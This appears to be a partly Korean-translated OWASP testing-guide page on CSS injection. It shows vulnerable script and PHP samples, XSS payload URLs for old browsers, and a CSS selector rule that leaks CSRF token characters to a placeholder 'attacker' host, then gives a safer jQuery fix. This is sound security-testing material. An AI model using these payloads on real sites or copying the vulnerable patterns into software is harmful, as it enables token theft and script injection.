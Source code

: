 ============================================================================================
OTG-CLIENT-005 (CSS 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

CSS 인젝션 취약점은 신뢰할 수 있는 웹 사이트의 내용에 임의의 CSS 코드를 
삽입할 수 있는 기능을 포함하고 있고, 이는 피해자 브라우저에 렌더링될 수
있습니다.

The impact of such a vulnerability may vary on the basis of the supplied CSS payload: 
it could lead to Cross-Site Scripting in particular circumstances, to
data exfiltration in the sense of extracting sensitive data or to UI
modifications.

|

테스트 방법
============================================================================================

어플리케이션이 사용자가 생성한 CSS를 입력할 수 있거나 합법적인 스타일시트로
방해하는 것이 가능하다면 취약점이 발생할 수 있습니다. 
Injecting code in the CSS context gives the
attacker the possibility to execute JavaScript in certain conditions
as well as extracting sensitive values through CSS selectors and
functions able to generate HTTP requests. 
Actually, giving the users the possibility to customize their own personal pages by
using custom CSS files results in a considerable risk, and should
be definitely avoided.
The following JavaScript code shows a possible vulnerable
script in which the attacker is able to control the "location.hash"
(source) which reaches the "cssText" function (sink). This particular
case may lead to DOMXSS in older browser versions, such as

DOM XSS Wiki 의 "Style Sinks" 참고

.. code-block:: html

    <a id="a1">Click me</a>
    <script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " +
    location.hash.slice(1);
    }
    </script>

Specifically the attacker could target the victim by asking her to visit the following URLs:

- www.victim.com/#red;-o-link:'javascript:alert(1)';-o-linksource: current; (Opera [8,12])
- www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)

The same vulnerability may appear in the case of classical reflected
XSS in which for instance the PHP code looks like the following:

.. code-block:: html

    <style>
    p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
    }
    </style>

Much more interesting attack scenarios involve the possibility to
extract data through the adoption of pure CSS rules. Such attacks
can be conducted through CSS selectors and leading for
instance to grab anti-CSRF tokens, as follows. In particular, input[
name=csrf_token][value=^a] represents an element with
the attribute "name" set "csrf_token" and whose attribute "value"
starts with "a". By detecting the length of the attribute "value",
it is possible to carry out a brute force attack against it and
send its value to the attacker`s domain.

.. code-block:: html

    <style>
    input[name=csrf_token][value=^a] {
    background-image: url(http://attacker/log?a);
    }
    </style>

Much more modern attacks involving a combination of SVG, CSS
and HTML5 have been proven feasible, therefore we recommend
to see the References section for details.

|

Black Box testing
-----------------------------------------------------------------------------------------------

We are referring to client-side testing, therefore black box testing
is not usually performed since access to the source code is
always available as it needs to be sent to the client to be executed.
However, it may happen that the user is given a certain
degree of freedom in terms of possibilities to supply HTML code;
in that case it is required to test whether no CSS injections are
possible: tags like "link" and "style" should be disallowed, as well

as attributes "style".

|

Gray Box testing
-----------------------------------------------------------------------------------------------

Testing for CSS Injection vulnerabilities:
Manual testing needs to be conducted and the JavaScript code
analyzed in order to understand whether the attackers can inject
its own content in CSS context. In particular we should be
interested in how the website returns CSS rules on the basis of
the inputs.
The following is a basic example:

.. code-block:: html

    <a id="a1">Click me</a>
    <b>Hi</b>
    <script>
    $("a").click(function(){
    $("b").attr("style","color: " + location.hash.slice(1));
    });
    </script>

The above code contains a source "location.hash" that is controlled
by the attacker that can inject directly in the attribute
"style" of an HTML element. As mentioned above, this may lead
to different results on the basis of the adopted browser and the
supplied payload.
It is recommended that testers use the jQuery function css(property,
value) in such circumstances as follows, since this would
disallow any damaging injections. In general, we recommend to
use always a whitelist of allowed characters any time the input is
reflected in the CSS context.

.. code-block

    <a id="a1">Click me</a>
    <b>Hi</b>
    <script>
    $("a").click(function(){
    $("b").css("color",location.hash.slice(1));
    });
    </script>


References
============================================================================================

OWASP Resources
-----------------------------------------------------------------------------------------------

- DOM based XSS Prevention Cheat Sheet
- DOMXSS Wiki - https://code.google.com/p/domxsswiki/wiki/CssText

|

Presentations
-----------------------------------------------------------------------------------------------

- DOM Xss Identification and Exploitation, Stefano Di Paola
http://dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf
- Got Your Nose! How To Steal Your Precious Data Without
Using Scripts, Mario Heiderich - http://www.youtube.com/
watch?v=FIQvAaZj_HA
- Bypassing Content-Security-Policy, Alex Kouzemtchenko
http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx

|

Proof of Concepts
-----------------------------------------------------------------------------------------------

- Password "cracker" via CSS and HTML5 - http://html5sec.org/invalid/?length=25
- CSS attribute reading - http://eaea.sirdarckcat.net/cssar/v2/

|